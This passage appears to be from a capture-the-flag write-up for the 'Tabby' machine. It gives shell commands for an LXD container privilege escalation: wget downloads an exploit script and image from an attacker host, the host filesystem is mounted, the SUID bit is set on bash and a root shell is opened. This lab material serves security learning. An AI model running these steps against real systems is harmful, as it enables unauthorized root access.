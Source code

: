 > **Attacker Machine**:

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget 10.10.14.15/alpine-v3.19-x86_64-20231227_1224.tar.gz
wget 10.10.14.15/lxd_exploit.sh
chmod +x lxd_exploit.sh

./lxd_exploit.sh -f alpine-v3.19-x86_64-20231227_1224.tar.gz
# lxc: command not found  :(

echo $PATH
```

> **Attacker Machine**:

```bash
echo $PATH | xclip -sel clip
```

> **Victime Machine**:

```bash
export PATH=...
echo $PATH

./lxd_exploit.sh -f alpine-v3.19-x86_64-20231227_1224.tar.gz

# Container
cd /mnt
cd ./root/root

cd /mnt/root/bin
ls -l bash
chmod u+s ./bash
ls -l bash
exit

# Host
ls -l /bin/bash

bash -p
```

<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_60.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_61.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_62.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_63.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/tabby_writeup/Tabby_64.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>